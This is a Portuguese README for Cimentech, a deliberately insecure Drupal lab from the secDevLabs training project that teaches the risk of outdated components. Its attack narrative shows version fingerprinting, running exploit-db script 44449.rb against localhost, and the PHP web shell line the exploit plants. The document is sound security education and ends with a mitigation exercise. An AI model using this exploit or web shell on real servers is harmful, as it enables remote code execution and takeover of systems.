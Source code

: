 # Cimentech

<p align="center">
    <img src="images/attack1.png"/></br>
    <a href="README.md"><img height="24" title="Access content in English" src="https://img.shields.io/badge/Access%20content%20in-English-blue"/></a>
</p>

Cimentech é um aplicativo web simples construído com Drupal que contém um exemplo de um componente com uma vulnerabilidade conhecida e seu principal objetivo é demonstrar como um invasor pode explorá-lo.

## Index

- [Cimentech](#cimentech)
  - [Index](#index)
  - [O que significa usar componentes desatualizados e vulneráveis?](#o-que-significa-usar-componentes-desatualizados-e-vulneráveis)
  - [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
  - [Conheça o app 🏗](#conheça-o-app-)
  - [Narrativa de ataque](#narrativa-de-ataque)
  - [Proteger este aplicativo](#proteger-este-aplicativo)
  - [PR Soluções](#pr-soluções)
  - [Contribuição](#contribuição)

## O que significa usar componentes desatualizados e vulneráveis?

Imagine que componentes, como bibliotecas, frameworks e outros módulos de software, sejam executados com os mesmos privilégios do aplicativo. Se um componente vulnerável for explorado, esse ataque pode facilitar a perda grave de dados ou o controle do servidor. Aplicativos e APIs que usam componentes com vulnerabilidades conhecidas podem prejudicar as defesas de aplicativos e permitir vários ataques e impactos.

O principal objetivo deste aplicativo é discutir como os **componentes desatualizados e vulneráveis** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do secDevLabs sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este aplicativo **intencionalmente inseguro**, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a6/cimentech
```

```sh
make install
```

Depois é só visitar [localhost][app] ! 😆

## Conheça o app 🏗

Para entender corretamente como esse aplicativo funciona, você pode:

- Visitar sua página inicial!

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### O uso de uma versão vulnerável do Drupal permite a execução remota de código

É possível acessar a aplicação web do servidor a partir da porta HTTP padrão 80, como mostra a imagem abaixo:

<img src="images/attack1.png" align="center"/>

Depois, dando uma olhada no arquivo `/robots.txt`, é possível encontrar o arquivo `CHANGELOG.txt` no campo `Disallow`, conforme ilustrado na imagem abaixo:

<img src="images/attack2.png" align="center"/>

Ao ser acessado, pode-se encontrar uma indicação da versão do Sistema de Gerenciamento de Conteúdo (Drupal), conforme mostrado abaixo:

<img src="images/attack3.png" align="center"/>

Tendo a versão do CMS, é possível verificar em [exploit-db][3] se há algum exploit associado a essa versão, neste caso, Drupal 7.57. Os resultados da pesquisa estão descritos na imagem abaixo:

<img src="images/attack4.png" align="center"/>

Ao usar [searchsploit](https://www.exploit-db.com/searchsploit), um invasor também pode encontrar esse mesmo resultado por meio de um terminal. Para instalá-lo, basta digitar o seguinte em seu terminal OSX (lembre-se de que pode acionar seu software antivírus):

```sh
⚠️ 'O próximo comando irá instalar vários códigos de exploração em seu sistema e muitos deles podem acionar alertas de antivírus'

brew install exploitdb
```

Em seguida, basta procurar a versão do CMS encontrada:

```sh
searchsploit drupal 7.
```

Se você estiver usando OSX, este comando o ajudará a copiar o exploit para sua pasta `/tmp`:

```
cp /usr/local/opt/exploitdb/share/exploitdb/exploits/php/webapps/44449.rb /tmp
```

## 🔥

Executando o código Ruby malicioso, temos evidências de que a execução remota de código é possível no servidor web, usando os seguintes comandos conforme mostrado abaixo: 

```sh
ruby /tmp/44449.rb http://localhost
```

<img src="images/attack5.png" align="center"/>

**NOTA**: Você precisa ter o Ruby instalado em seu sistema para executar o exploit, para informações sobre como instalá-lo, clique [aqui][1]!

**NOTA 2**: Se você encontrar um erro de execução ao tentar executar o exploit, consulte este [Problema][4] para obter informações sobre como proceder. 

A exploração funciona adicionando ao servidor um `s.php` malicioso, que permite a execução remota de código através do seguinte conteúdo malicioso:
         
```php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```

Usando o "fake shell" do exploit, podemos digitar um comando, como `whoami`, para verificar se realmente temos um RCE no servidor, conforme mostra a imagem:

<img src="images/attack6.png" align="center"/>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Execute o código remotamente através do exploit acima

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [esses pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ACimentech)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:80
[secdevlabs]: https://github.com/globocom/secDevLabs
[1]: https://www.ruby-lang.org/en/documentation/installation/
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2021-apps/a6/Cimentech
[3]: https://www.exploit-db.com/
[4]: https://github.com/globocom/secDevLabs/issues/212
